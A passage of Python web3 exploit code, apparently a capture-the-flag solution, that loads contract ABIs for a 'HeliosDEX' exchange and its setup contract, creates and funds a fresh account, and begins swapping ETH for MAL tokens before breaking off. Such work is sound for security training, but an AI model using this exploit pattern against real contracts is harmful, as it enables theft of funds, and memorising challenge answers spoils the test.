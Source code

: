 ```python
    {"inputs": [], "name": "swapForMAL", "outputs": [], "stateMutability": "payable", "type": "function"},
    {"inputs": [{"internalType": "address", "name": "item", "type": "address"}, {"internalType": "uint256", "name": "amount", "type": "uint256"}], "name": "oneTimeRefund", "outputs": [], "stateMutability": "nonpayable", "type": "function"}
]

erc20_abi = [
    {"constant": True, "inputs": [{"name": "_owner", "type": "address"}], "name": "balanceOf", "outputs": [{"name": "balance", "type": "uint256"}], "payable": False, "stateMutability": "view", "type": "function"},
    {"constant": False, "inputs": [{"name": "_spender", "type": "address"}, {"name": "_value", "type": "uint256"}], "name": "approve", "outputs": [{"name": "", "type": "bool"}], "payable": False, "stateMutability": "nonpayable", "type": "function"}
]

setup_abi = [
    {"inputs": [], "name": "isSolved", "outputs": [{"internalType": "bool", "name": "", "type": "bool"}], "stateMutability": "view", "type": "function"}
]

# Initialize contracts
heliosdex = w3.eth.contract(address=TARGET_ADDRESS, abi=heliosdex_abi)
setup_contract = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
mal_address = heliosdex.functions.malakarEssence().call()
print(f"MAL token address: {mal_address}")
mal_contract = w3.eth.contract(address=mal_address, abi=erc20_abi)

# Single exploit function
def run_exploit():
    # Initial balance check
    player_balance = w3.eth.get_balance(PLAYER_ADDRESS)
    print(f"Initial player balance: {w3.from_wei(player_balance, 'ether')} ETH")
    
    # Create account
    account = w3.eth.account.create()
    print(f"Created account: {account.address}")
    
    # Transfer ETH to account
    amount_wei = w3.to_wei(ETH_AMOUNT, 'ether')
    tx = {
        'from': PLAYER_ADDRESS,
        'to': account.address,
        'value': amount_wei,
        'gas': 21000,
        'gasPrice': w3.eth.gas_price,
        'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
        'chainId': CHAIN_ID
    }
    
    signed_tx = w3.eth.account.sign_transaction(tx, PLAYER_PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    
    # Swap ETH for MAL tokens
    swap_amount = amount_wei - w3.to_wei(0.01, 'ether')
    swap_tx = heliosdex.functions.swapForMAL().build_transaction({
        'from': account.address,
        'value': swap_amount,
        'gas': 300000,
        'gasPrice': w3.eth.gas_price,
        'nonce': w3.eth.get_transaction_count(account.address),
        'chainId': CHAIN_ID
```